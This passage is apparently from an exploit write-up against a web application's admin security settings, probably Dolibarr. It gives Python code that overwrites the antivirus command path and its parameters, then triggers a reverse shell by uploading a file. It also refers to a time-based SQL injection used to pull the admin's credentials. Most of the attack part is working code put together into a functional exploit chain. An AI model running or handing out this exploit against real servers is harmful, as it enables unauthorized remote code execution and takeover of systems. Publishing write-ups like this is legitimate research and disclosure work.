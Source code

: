5. Modification of antivirus binary's path.
6. Trigger reverse shell.

### Modification of antivirus binary's path

```python
def change_binary(url, command, parameters):
    headers = {
        "Referer": f"{url}admin/security_file.php"
    }
    datas = {
        "action": "updateform",
        "MAIN_UPLOAD_DOC": "2048",
        "MAIN_UMASK": "0664",
        "MAIN_ANTIVIRUS_COMMAND": command,
        "MAIN_ANTIVIRUS_PARAM": parameters
    }
    r = SESSION.post(url=f"{url}admin/security_file.php",
                     data=datas, headers=headers, verify=False)
    if r.status_code == 200:
        for response in ["Record modified successfully", "Enregistrement modifié avec succès"]:
            if response in r.text:
                if DEBUG:
                    print(f"    [*] Binary's path changed")
                return 1
    return 0
```

Now we just have to get the reverse shell by uploding a file.

### Trigger reverse shell

```python
def trigger_exploit(url):
    headers = {
        "Referer": f"{url}admin/security_file.php"
    }
    files = {
        "userfile[]": open("junk.txt", "rb"),
    }
    datas = {
        "sendit": "Upload"
    }
    if DEBUG:
        print(f"    [*] Triggering reverse shell")
    r = SESSION.post(url=f"{url}admin/security_file.php",
                     files=files, data=datas, headers=headers, verify=False)
    if r.status_code == 200:
        for response in ["File(s) uploaded successfully", "The antivirus program was not able to validate the file (file might be infected by a virus)", "Fichier(s) téléversés(s) avec succès", "L'antivirus n'a pas pu valider ce fichier (il est probablement infecté par un virus) !"]:
            if response in r.text:
                if DEBUG:
                    print(f"    [*] Exploit done")
                return 1
    return 0
```

Let's put it all together to achieve a functional exploit.

## Exploit

Since the SQL injection have been exploited via a Time Based attack, it takes a little time to retrieve the administrator's information (username and `pass_temp`) from the database.
